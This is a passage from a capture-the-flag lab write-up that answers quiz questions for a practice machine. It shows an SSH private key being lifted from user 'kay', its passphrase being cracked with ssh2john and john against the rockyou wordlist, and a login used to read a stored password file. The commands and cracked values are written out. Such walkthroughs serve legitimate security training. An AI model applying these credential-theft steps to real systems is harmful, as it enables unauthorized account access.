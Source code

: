 - After running, we find that the **SSH private key (id_rsa) of Kay** has read permissions.
- Copy the contents of the id_rsa file. (Private Key) and store it in your local machine.
- Try to login using the private key.
	- ssh -i flag - used for identity file.

```bash
root@kali: ssh -i kay_id_rsa kay@10.10.21.87
Enter passphrase for key 'kay_id_rsa': 

``` 
- It's asking for a password. But, we don't have it yet.
---

### What is the name of the other user you found(all lower case)?
- **Answer:** kay

---

### If you have found another user, what can you do with this information?
- **Answer:** We can try to escalate our privileges to gain **root access**. May be that user can have additional permissions which can be exploited to gain root access.

---

### What is the final password you obtain?
- **Answer:** heresareallystrongpasswordthatfollowsthepasswordpolicy$$
- **Steps to Reproduce:**
- Now, we'll try to brute force the ssh passphrase using `john`.
- Convert the id_rsa file using `ssh2john.py` so that it can be fed to John for **bruteforcing the passphrase**.

```bash
root@kali: usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
rrot@kali:john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_id_rsa)
Session completed

```

- Login using the the ssh private key and provide the passphrase.

```bash
root@kali: ssh -i kay_id_rsa kay@10.10.21.87
Enter passphrase for key 'kay_id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```